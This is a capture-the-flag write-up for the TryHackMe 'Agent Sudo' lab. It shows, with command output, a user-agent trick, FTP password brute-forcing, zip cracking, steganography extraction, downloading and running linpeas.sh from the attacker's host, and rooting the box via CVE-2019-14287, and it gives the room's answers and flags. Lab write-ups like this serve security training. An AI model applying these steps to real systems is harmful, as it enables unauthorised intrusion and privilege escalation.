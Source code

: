 # TryHackMe: Agent Sudo

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

*[Link](https://tryhackme.com/room/agentsudoctf)*

I got the following IP:

```
export IP=10.10.170.69
```

## Task 1

Just click completed, no need to do anything.

## Task 2: Enumerate

> Enumerate the machine and get all the important information

See `nmap.log`, `nikto.log` and `gobuster.log`. The index webpage itself told me the following:

![](index-page.png)

Which I tried like this. (`-L` is important: we must follow a redirect!)

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo]
└──╼ $curl http://10.10.170.69/ -H "User-Agent: C" -L
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

Flags:

* **How many open ports?** 3
* **How you redirect yourself to a secret page?** `User-Agent`
* **What is the agent name?** `chris`

## Task 3: Hash cracking and brute-force

> Done enumerate the machine? Time to brute your way out.

I tried to take advantage of said weak password, guessing the username would be `chris`.

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo]
└──╼ $ncrack --user chris -P ../10-million-password-list-top-10000.txt ftp://$IP

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-08-02 12:54 BST
Stats: 0:00:16 elapsed; 0 services completed (1 total)
Rate: 0.00; Found: 0; About 0.40% done
Stats: 0:01:23 elapsed; 0 services completed (1 total)
Rate: 10.40; Found: 3; About 10.38% done; ETC: 13:08 (0:12:05 remaining)
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.170.69 21/tcp:
10.10.170.69 21/tcp ftp: 'chris' 'crystal'
10.10.170.69 21/tcp ftp: 'chris' 'bitch'
10.10.170.69 21/tcp ftp: 'chris' 'winston'
```

This first password, `crystal`, got me FTP access. I used Filezilla and found three files: `To_agentJ.txt`, `cute-alien.jpg` and `cutie.png`. I copied these to `ftp-files/` here. The text file contained the following:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

And indeed, there seems to be a zip file hidden inside one of the images:

```
┌─[✗]─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

This zip file is password-protected, so I cracked it using John the ripper:

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files/_cutie.png.extracted]
└──╼ $zip2john 8702.zip > hashes.txt
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files/_cutie.png.extracted]
└──╼ $john hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE 2/3 (2023-08-02 13:14) 1.492g/s 65653p/s 65653c/s 65653C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So the zip password is `alien`. One of the files contained the following:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

That's base64 for `Area51`. I tried to use this as steghide password on the other image file:

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Indeed, I was able to log in with SSH using these credentials:

![](ssh.png)

Flags:

* **FTP password**: `crystal`
* **Zip file password**: alien
* **Steg password**: Area51
* **Who is the other agent (in full name)?** james
* **SSH password**: hackerrules!

## Task 4: Capture the user flag

> You know the drill.

```
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

There was another image file called `Alien_autospy.jpg` in the home directory too, which I copied using SCP. It's in the `ssh-files/` directory. I reverse image searched it and found some articles related to a *Roswell alien autopsy*.

Flags:

* **What is the user flag?** `b03d975e8c92a7c04146cfa7a5a313c7`
* **What is the incident of the photo called?** `Roswell alien autopsy`

## Task 5: Privilege escalation

> Enough with the extraordinary stuff? Time to get real.

I downloaded and executed `linpeas.sh` to check for possible privilege escalation vectors.
``` 
james@agent-sudo:~$ wget http://10.9.94.92/linpeas.sh
--2023-08-02 12:38:18--  http://10.9.94.92/linpeas.sh
Connecting to 10.9.94.92:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 676221 (660K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh              100%[=============================>] 660.37K  1.67MB/s    in 0.4s    

2023-08-02 12:38:19 (1.67 MB/s) - ‘linpeas.sh’ saved [676221/676221]

james@agent-sudo:~$ chmod +x linpeas.sh 
james@agent-sudo:~$ ./linpeas.sh
```

I had already noticed the old sudo version, but linpeas told me I might want to try [CVE-2019-14287](https://cve.circl.lu/cve/CVE-2019-14287). I copied exploit 47502 from [ExploitDB](https://www.exploit-db.com/exploits/47502) for this.

```
james@agent-sudo:~$ vim exploit.py
james@agent-sudo:~$ python3 exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:~# whoami
root
root@agent-sudo:~# ls /root
root.txt
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```
Flags:

* **CVE Number**: `CVE-2019-14287`
* **What is the root flag?** `b53a02f55b57d4439e3341834d70c062`
* **(Bonus) Who is agent R?** `DesKel`
